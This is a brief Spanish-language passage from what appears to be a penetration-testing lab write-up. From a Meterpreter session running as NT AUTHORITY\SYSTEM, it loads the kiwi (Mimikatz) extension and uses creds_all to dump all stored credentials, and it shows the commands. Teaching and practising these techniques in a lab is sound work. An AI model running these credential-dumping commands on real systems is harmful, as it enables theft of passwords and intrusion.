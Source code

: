 Verificamos que usuario somos con getuid. 

```bash 

getuid

```

Comprobamos que el usuario es **NT AUTHORITY\SYSTEM**

![getuid](img/19.png)

Ahora, siguiendo los pasos de la practica ejecutamos el comando load kiwi (dumping de contraseñas).

```bash 

load kiwi

```
![kiwi](img/20.png)

Hacemos help para ver los comandos de kiwi.

```bash 

help

```

El comando que nos da todas las credenciales es **creds_all**

![kiwi](img/21.png)

